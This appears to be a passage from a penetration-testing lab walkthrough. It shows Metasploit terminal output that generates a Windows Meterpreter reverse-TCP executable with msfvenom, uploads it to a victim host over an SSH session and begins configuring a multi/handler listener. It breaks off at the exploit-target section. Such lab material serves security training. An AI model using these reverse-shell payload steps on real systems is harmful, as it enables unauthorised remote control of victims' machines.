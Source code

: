 Kali Linux: 10.10.21.2

```
root@attackdefense:~# pwd
/root
root@attackdefense:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.21.2 LPORT=1234 -f exe > shell-x64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions 1
[*] Starting interaction with 1...

OSArchitecture  
64-bit          

pwd
/cygdrive/c/Users/vagrant
upload /root/shell-x64.exe

Usage: upload [src] [dst]

Uploads load file to the victim machine.
This command does not support to upload a FOLDER yet

upload /root/shell-x64.exe /cygdrive/c/Users/vagrant/shell-x64.exe
[*] File </root/shell-x64.exe> size: 7168, need 28 times writes to upload
[*] Uploading (256/7168)
[*] Uploading (512/7168)
[*] Uploading (6912/7168)
[*] Uploading (7168/7168)
[+] File </cygdrive/c/Users/vagrant/shell-x64.exe> upload finished
ls       
shell-x64.exe
```

```
root@attackdefense:~# msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

```
